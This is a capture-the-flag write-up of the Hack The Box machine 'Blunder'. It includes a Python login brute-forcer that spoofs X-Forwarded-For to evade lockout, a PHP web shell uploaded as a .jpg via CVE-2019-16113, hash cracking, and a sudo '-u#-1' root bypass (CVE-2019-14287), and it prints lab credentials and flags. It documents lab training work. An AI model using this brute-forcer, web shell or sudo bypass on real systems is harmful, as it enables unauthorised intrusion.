

# Blunder by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Blunder  | 10.10.10.191  | Linux              | 20       | 3.3      | 16324       | 15968       | Yes       | 2020-05-30     | 2020-10-17     | No         | 254          |

## Summary
1. Scan ports -> 80
2. Enumerate port 80 -> `/admin/login`
3. Bruteforce user `fergus` -> `fergus:RolandDeschain`
4. Upload webshell as `.jpg` -> `web shell` on `/temp/tmp/$filename.jpg`
5. Reverse shell -> User shell as `www-data`
6. Read `/var/www/bludit-3.10.0a/bl-content/databases/users.php` and decrpyt hash -> `hugo:Password120`
7. `su hugo` with credentials -> User shell as `hugo` (user flag)
8. `sudo -l` on `hugo` -> `(NOPASSWD: ALL, !root) /bin/bash`
9. Bypass `!root` filter with `-u#-1` -> `Root` shell (root flag)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.10.191
PING 10.10.10.191 (10.10.10.191) 56(84) bytes of data.
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.191 -v -Pn -n -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.191 

	[*] Open ports:  80 


[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p80 -sVC 10.10.10.191 -n -oN Enum/targeted
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-title: Blunder | A blunder of interesting facts
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 80   | http      | 2.4.41   |   -    |

### Port 80 enumeration
#### Technology scan
```bash
❯ whatweb 10.10.10.191
http://10.10.10.191 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.191], JQuery, MetaGenerator[Blunder], Script, Title[Blunder | A blunder of interesting facts], X-Powered-By[Bludit]
```
Toguether with `wappalyzer` extension:
| Tecnology | Version | Detail | 
| :-: | :-: | :-: |
| Apache | 2.4.41 | - |
| MetaGenerator | - | Blunder |
| X-Powered-By | - | Bludit |

#### Web content fuzzing
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --hc 404 --hh 7561 "http://10.10.10.191/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.191/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000026:   200        105 L    303 W      3280 Ch     "about"           
000000259:   301        0 L      0 W        0 Ch        "admin"           
000002551:   200        110 L    387 W      3959 Ch     "usb"             
000003295:   200        21 L     171 W      1083 Ch     "LICENSE"         
000095524:   403        9 L      28 W       277 Ch      "server-status"   
```
The `/admin` page redirects to a login page. Now, we can enumerate `.php` files:
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --hc 404 --hh 7561 "http://10.10.10.191/FUZZ.php"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.191/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000014:   403        9 L      28 W       277 Ch      "http://10.10.10.1
                                                        91/.php"          
000000715:   200        0 L      5 W        30 Ch       "install"  
```
`/install.php` allows us to install `bludit` on an existing webpage, useless in this case. Finally, we can take a look at `.txt` files:
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200 --hc 404 --hh 7561 "http://10.10.10.191/FUZZ.txt"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.191/FUZZ.txt
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                     
=====================================================================

000000023:   403        9 L      28 W       277 Ch      ".hta"                                                                                                      
000000025:   403        9 L      28 W       277 Ch      ".htpasswd"                                                                                                 
000000024:   403        9 L      28 W       277 Ch      ".htaccess"                                                                                                 
000003567:   200        1 L      4 W        22 Ch       "robots"                                                                                                    
000004175:   200        4 L      23 W       118 Ch      "todo"      
```
If we read the contents of `/robots.txt`:
```bash
❯ curl "http://10.10.10.191/robots.txt"
User-agent: *
Allow: /
```
and `/todo.txt`:
```bash
❯ curl "http://10.10.10.191/todo.txt"
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```
We can enumerate a user `fergus`.


As we don't know the domain name, we can't perform subdomain fuzzing.

#### Manual enumeration
Reading the public pages of the web doesn't give any useful information. Anyway, when we access the `admin login`, we can see:

This login is not vulnerable to SQLi, at least not to the basic tries I made. If we lookup exploits for the CMS `bludit`:
```bash
❯ searchsploit bludit
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Bludit - Directory Traversal Image File Upload ( | php/remote/47699.rb
Bludit 3.13.1 - 'username' Cross Site Scripting  | php/webapps/50529.txt
Bludit 3.9.12 - Directory Traversal              | php/webapps/48568.py
Bludit 3.9.2 - Auth Bruteforce Bypass            | php/webapps/48942.py
Bludit 3.9.2 - Authentication Bruteforce Bypass  | php/webapps/49037.rb
Bludit 3.9.2 - Authentication Bruteforce Mitigat | php/webapps/48746.rb
Bludit 3.9.2 - Directory Traversal               | multiple/webapps/48701.txt
bludit Pages Editor 3.0.0 - Arbitrary File Uploa | php/webapps/46060.txt
------------------------------------------------- ---------------------------------
```
We find directory traversal vulnerabilities, but these are only accessible when logged in. So we need to bypass the login.

##### Bypassing the login
From burpsuite, we can see that the params sent to the login processor are:
```bash
tokenCSRF=5ef5666e0dc0d92b1136f0b1076cc0fcad9a302b&username=admin&password=1234&save=
```
The tokenCSRF is generated dynamically, in this case, we can obtain with the following command:
```bash
❯ curl "http://10.10.10.191/admin/login" -s | grep CSRF | awk -F 'value=' '{print $NF}' | cut -d '"' -f 2
e06dc340695e88ba70a9fff7fd78bc911e9eed66
```
To perform the bruteforce, we created the following script:
```py
import requests
import sys
import argparse
from random import randint

# Parse program arguments
args = argparse.ArgumentParser()
args.add_argument("-u","--url",help="Url of the login page",type=str,required=True,dest="url")
args.add_argument("-w","--user-wordlist",help="Wordlist with the usernames to test",type=str,required=True,dest="users")
args.add_argument("-x","--passwd-wordlist",help="Wordlist with the passwords to test",type=str, required=True,dest="passwds")
args.add_argument("-v","--verbose",help="Show more detailed information",dest="verbose", action="store_true")
args = args.parse_args()

# Function definition
def obtain_CSRF(url, session):
    response = session.get(url=url)
    if (response.status_code == 200):
        # Get the CSRF token contained as input type hidden
        csrf_token = response.text.split('name="tokenCSRF" value="')[1].split('"')[0]
        if (args.verbose):
            print("[?] CSRF token obtained: " + csrf_token)
        return csrf_token

def try_credential(url, username, passwd, csrf, session):
    headers={
            "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36",
            "Referer":url,
            "X-Forwarded-For":str(randint(0,10000))
            }
    payload={
            "tokenCSRF":csrf,
            "username":username,
            "password":passwd,
            "save":''
            }
    if (args.verbose):
        print("[?] payload:{}".format(payload))
    response = session.post(url=url,data=payload,headers=headers,allow_redirects=False)
    #print(response.text)
    if 'IP address has been blocked' in response.text:
        print("[X] Address blocked")
        sys.exit(2)
    elif 'Username or password incorrect' not in response.text:
        print("[!] Credential found: User '{}' with password '{}'".format(username,passwd))
        sys.exit(1)

# Open wordlists
with open(args.users, "r") as users_file:
    with open(args.passwds, "r",errors="ignore") as passwd_file:
        n_users=0
        users = users_file.readlines()
        passwds = passwd_file.readlines()
        for user in users:
            session = requests.session()
            user = user.strip('\n')
            n_passwds = 0
            for passwd in passwds:
                passwd = passwd.strip('\n')
                csrf_token=obtain_CSRF(args.url, session)
                try_credential(args.url, user, passwd, csrf_token, session)
                print("User {}/{}, password {}/{} ({})\t".format(n_users,len(users),n_passwds,len(passwds),passwd),end='\r')
                n_passwds += 1
            n_users += 1
```
Let's use the `fergus` user enumerated earlier and try to obtain its password:
```bash
❯ echo "fergus" > Exploits/users.txt
❯ python3 Exploits/bludit_bf.py -u "http://10.10.10.191/admin/login" -w ./Exploits/users.txt -x /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt
```
But we didn't find the password. Another thing we can try is generating custom dictionaries related to the web's content:
```bash
❯ sudo cewl http://10.10.10.191 > Exploits/passwds.txt
❯ python3 Exploits/bludit_bf.py -u "http://10.10.10.191/admin/login" -w ./Exploits/users.txt -x Exploits/passwds.txt
[!] Credential found: User 'fergus' with password 'RolandDeschain'
```
We obtained the credentials `fergus:RolandDeschain`.

#### LFI trough /admin/dashboard
Now that we have access to the admin panel, we see we are able to create new contents, where we can upload images. After testing the extension restrictions, we know we can upload `.jpg, .jpeg, .png, .gif, .bmp, .svg` files. Now we can try to upload a malicious image that gives us a reverse shell on the server.
To do so, first, we will code the php web shell:
```php
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/file.jpg
       │ Size: 89 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │   if ($_REQUEST['cmd'])
   3   │     echo "<pre>".shell_exec($_REQUEST['cmd'])."</pre>";
   4   │ ?>
───────┴───────────────────────────────────────────────────────────────────────────
```
We found an exploit that allows RCE through the image upload feature, thanks to the [CVE-2019-16113](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16113). For this attack vector to work, we need to upload a malicious `.htaccess` that makes the webpage interprete images as php files.
```bash
❯ cd Exploits
❯ searchsploit -m multiple/webapps/48701.txt
❯ cd ..
❯ nvim Exploits/48701.txt # Modify the script for your own schema
❯ echo "RewriteEngine off" > Exploits/.htaccess
❯ echo "AddType application/x-httpd-php .jpg" >> Results/.htaccess
❯ mv Exploits/48701.txt Exploits/48701.py
❯ cd Exploits
❯ python3 48701.py
cookie: qoo03qndu465dn3k01rm5828f5
csrf_token: 1be94986905c913023a777256a74f12e059997c7
Uploading payload: file.jpg
Uploading payload: .htaccess
```
Now, we can try the RCE and obtain a reverse shell:
```bash
❯ curl "10.10.10.191/bl-content/tmp/temp/file.jpg"
❯ curl "10.10.10.191/bl-content/tmp/temp/file.jpg?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```
We obtained a user shell as `www-data`.

## Pivoting to user `hugo`
First, we need to know what other users exist in the system:
```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
```
We can see `shaun`, `hugo` and `temp` are users. We can first try reusing `RolandDeschain` to login as them:
```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su hugo
Password: 
su: Authentication failure
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su shaun
Password: 
su: Authentication failure
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su temp
Password: 
su: Authentication failure
```
So these credentials are not valid. If we take a look at the server files, we finde `/var/www/bludit-3.9.2/bl-content/databases/users.php`, from were we can enumerate two users `admin` and `fergus`. Also, we can see two passwords encrypted:
```json
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
```
If we try to decryp admin's password with hashcat:
```bash
❯ echo "bfcc887f62e36ea019e3295aafb8a3885966e265:5dde2887e7aca" > Results/admin_hash
❯ hashcat -a 0 -m 10 Results/admin_hash /usr/share/dict/rockyou.txt
hashcat (v6.2.5) starting

cuInit(): no CUDA-capable device is detected

OpenCL API (OpenCL 3.0 PoCL 3.0-rc2  Linux, Release, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-7700K CPU @ 4.20GHz, 2901/5867 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashfile 'Results/admin_hash' on line 1 (bfcc88...5aafb8a3885966e265:5dde2887e7aca): Token length exception
No hashes loaded.

Started: Mon Jun 13 00:08:06 2022
Stopped: Mon Jun 13 00:08:06 2022
```
As we can see, the password is encrypted with sha1 with salt, but even if we know the salt, we are not able to decrypt the password. Anyway, notices we are in the `/var/www/bludit-3.9.2/` folder, but there is also the folder `/var/www/bludit-3.10.0a/`:
```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat /var/www/bludit-3.10.0a/bl-content/databases/users.php    
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
Notice that this password is only encrypted with sha1, not salted:
```bash
❯ echo "faca404fd5c0a31cf1897b823c695c85cffeb98d" > Results/admin_hash
❯ hashcat -a 0 -m 100  Results/admin_hash /usr/share/dict/rockyou.txt
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 100 (SHA1)
Hash.Target......: faca404fd5c0a31cf1897b823c695c85cffeb98d
Time.Started.....: Mon Jun 13 00:20:15 2022 (5 secs)
Time.Estimated...: Mon Jun 13 00:20:20 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/dict/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2636.9 kH/s (0.31ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344383/14344383 (100.00%)
Rejected.........: 0/14344383 (0.00%)
Restore.Point....: 14344383/14344383 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b656c7365796c6f7665736261727279] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 18%
❯ hashcat -a 0 -m 100 Results/admin_hash /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 100 (SHA1)
Hash.Target......: faca404fd5c0a31cf1897b823c695c85cffeb98d
Time.Started.....: Mon Jun 13 00:19:17 2022 (0 secs)
Time.Estimated...: Mon Jun 13 00:19:17 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2455.2 kH/s (0.31ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 1000000/1000000 (100.00%)
Rejected.........: 0/1000000 (0.00%)
Restore.Point....: 1000000/1000000 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: vadert4 -> vaanes
Hardware.Mon.#1..: Util: 18%
```
As our wordlists weren't able to crack the password, we will use `https://crackstation.net/` to try to crack it. Success!! The hash correspond to a sha1 encryption of `Password120`, abd as the `nickname` for admin is `hugo`, we can try:
```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su hugo
Password: # Password120
hugo@blunder:/var/www/bludit-3.9.2/bl-content/databases$ hostname -I
10.10.10.191 dead:beef::250:56ff:feb9:f4cb 
```
We pivoted to user `hugo`.

## Privilege escalation
The first things we must try when escalating privileges are:
```bash
hugo@blunder:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
hugo@blunder:~$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
As we can see, `hugo` is allowed to run `/bin/bash` as any user different than `root`, without password:
```bash
hugo@blunder:~$ sudo -u shaun /bin/bash
shaun@blunder:/home/hugo$
```
We can change users, but these users are useless for privesc. Instead, we can look up vulnerabilities for the sudo version:
```bash
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```
We discovered the [CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287), which states that replacing `root` by `#-1` will bypass the `!root` filter:
```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/home/hugo# hostname -I
10.10.10.191 dead:beef::250:56ff:feb9:f4cb
```
We obtained a `root shell` on blunder.htb.


## CVE
### [CVE-2019-16113](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16113)
Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname. 
### [CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command. 

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | e935c70f04bf5751b0833eda79aa7d0b | No | 13-06-2022|
| Root | d9549a41bd9f2fd0b97afb0d377f21fc | No | 13-06-2022|

## References
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16113
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287